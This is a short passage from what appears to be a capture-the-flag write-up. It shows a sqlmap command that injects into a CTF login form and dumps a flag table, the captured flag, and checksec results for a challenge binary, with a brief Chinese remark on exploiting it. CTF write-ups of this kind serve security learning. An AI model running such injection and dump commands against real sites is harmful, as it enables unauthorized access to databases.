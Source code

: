 ```
+-----------------+
```

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --dump flag1 --data 'ctf_username=*+&ctf_password=asdasd' --threads 10
```

```
ADLCTF{IdNonMesFecGaxJacet9twetefCalNoa}
```

## ANALYZER

```
[+] checksec for '/home/ubuntu/ANALYZER'
Canary                        : ✓
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

可以執行寫入值但是需要解碼

![Untitled%2025.png](./img/Untitled%2025.png)
